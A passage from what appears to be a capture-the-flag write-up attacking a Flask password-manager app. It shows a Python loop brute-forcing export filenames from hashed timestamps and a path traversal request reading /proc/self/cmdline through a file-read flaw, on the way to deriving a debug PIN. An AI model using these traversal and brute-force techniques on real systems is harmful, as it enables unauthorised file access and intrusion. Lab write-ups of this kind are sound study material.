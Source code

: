 ```python
        return response.text.strip()

    return ''

chars = 10
time = datetime.datetime.now()
delta = datetime.timedelta(microseconds=-1)
count = 0

while True:
    use_proxy = False
    if count % 100 == 0:
        print(time)
        use_proxy = True

    rand =  (hashlib.md5(str(time).encode() + b"SeCReT?!").hexdigest()[:chars])
    file = f'corum_export_{rand}.csv'
    value = request_file(file, use_proxy)
    if value:
        print(file)
        print(value)
        exit()

    time = time + delta
    count += 1
```

I ran the script for a while. It did not find any existing export file.

## Finally The PIN

After losing a few hours, I went back to trying to generate the PIN.

I used the file read vulnerability to see how the application was executed. It used [venv](https://docs.python.org/3/library/venv.html).

```http
GET /download?fn=../proc/self/cmdline HTTP/1.1
```

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 16 Apr 2023 14:41:03 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 103
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

/app/venv/bin/python3�/app/venv/bin/gunicorn�--bind�127.0.0.1:5000�--threads=10�--timeout�600�wsgi:app�
```
